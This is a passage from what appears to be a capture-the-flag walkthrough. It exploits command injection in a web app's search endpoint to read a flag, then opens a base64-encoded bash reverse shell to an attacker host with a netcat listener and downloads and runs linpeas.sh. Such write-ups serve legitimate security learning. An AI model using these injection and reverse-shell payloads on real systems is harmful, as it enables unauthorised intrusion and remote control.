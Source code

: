 6. Through analysis of the web application, we identify a command injection vulnerability in the search functionality. We can exploit this to read the web flag

```
POST /assets/php/search.php HTTP/1.1
Host: <TARGET_IP>
Content-Length: 47
Authorization: Basic cmFzY2FsOnNoZWxsZXk=

{
  "target":"\"; cat ../../../web-flag.txt \n"
}
```

<img width="1055" height="273" alt="SCREEN06" src="https://github.com/user-attachments/assets/860a085d-a4c3-4531-862f-e451bd172bae" />

---

### What is the user flag?

1. With command injection, let's establish a connection. Prepare a base64-encoded reverse shell payload

```bash
echo -n "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1" | base64
```

2. Set up a netcat listener on our attacking machine to catch the reverse shell

```bash
nc -lvnp 4444
```

2. Use the command injection vulnerability to execute our base64-encoded reverse shell

```
POST /assets/php/search.php HTTP/1.1
Host: <TARGET_IP>
Content-Length: 47
Authorization: Basic cmFzY2FsOnNoZWxsZXk=

{
  "target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4yMDMuNDYvNDQ0NCAwPiYx | base64 -d | bash; \""
}
```

3. Running `linpeas.sh` indicates that SSH is only available to localhost

```bash
cd /root/Tools/PEAS/linPEAS
python -m SimpleHTTPServer
```

```bash
cd /tmp
wget <ATTACKER_IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

cat /etc/ssh/sshd_config
```
